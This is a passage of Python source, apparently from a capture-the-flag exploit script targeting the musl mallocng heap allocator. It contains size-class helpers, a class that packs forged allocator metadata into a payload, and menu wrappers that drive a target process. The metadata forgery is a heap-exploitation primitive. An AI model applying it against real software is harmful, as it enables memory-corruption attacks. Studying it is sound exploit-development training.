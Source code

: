 ```python
]
def find_offset_fit_class(offset):
    for i in range(len(size_class)):
        if size_class[i] <= offset and size_class[i+1] > offset:
            return i
    return -1
def CountTailingZero(n):
    debruijn32 = [
		0, 1, 23, 2, 29, 24, 19, 3, 30, 27, 25, 11, 20, 8, 4, 13,
		31, 22, 28, 18, 26, 10, 7, 12, 21, 17, 9, 6, 16, 5, 15, 14
    ]
    return debruijn32[((n&-n)*0x076be629&0xffffffff) >> 27]
def CountLeadingZero(n):
    n >>= 1
    n |= n >> 1
    n |= n >> 2
    n |= n >> 4
    n |= n >> 8
    n |= n >> 16
    n += 1
    return 31-CountTailingZero(n)
def size_to_class(n):
    n = (n+3)>>4
    if n < 10:
        return n 
    n += 1
    i = (28-CountLeadingZero(n))*4+8
    if(n > size_class[i+1]): i+= 2
    if(n > size_class[i] ): i+=1
    return i
class fakeMeta:
    prev = 0
    next = 0
    mem = 0
    avail_mask=0
    freed_mask=0
    last_idx = 0
    freeable = 1
    sizeclass = 0
    maplen = 0
    def Mask(self):
        return (self.avail_mask) | (self.freed_mask << 32)
    def payload(self):
        Payload = p64(self.prev)
        Payload += p64(self.next)
        Payload += p64(self.mem)
        Payload += p64(self.Mask())
        flag = self.last_idx & 0x1f
        flag |= (self.freeable & 1) << 5
        flag |= (self.sizeclass & 0x3f) << 6
        flag |= self.maplen << 12
        Payload += p64(flag)
        return Payload

def add(name,size,content):
    sh.sendlineafter(b">> ",b'1')
    sh.sendafter(b"Name: ",name)
    sh.sendlineafter(b"Size: ",str(size))
    sh.sendafter(b"Content: ",content)
    return
def dele(idx):
    sh.sendlineafter(b">> ",b'2')
    sh.sendlineafter(b"Index: ",str(idx))
```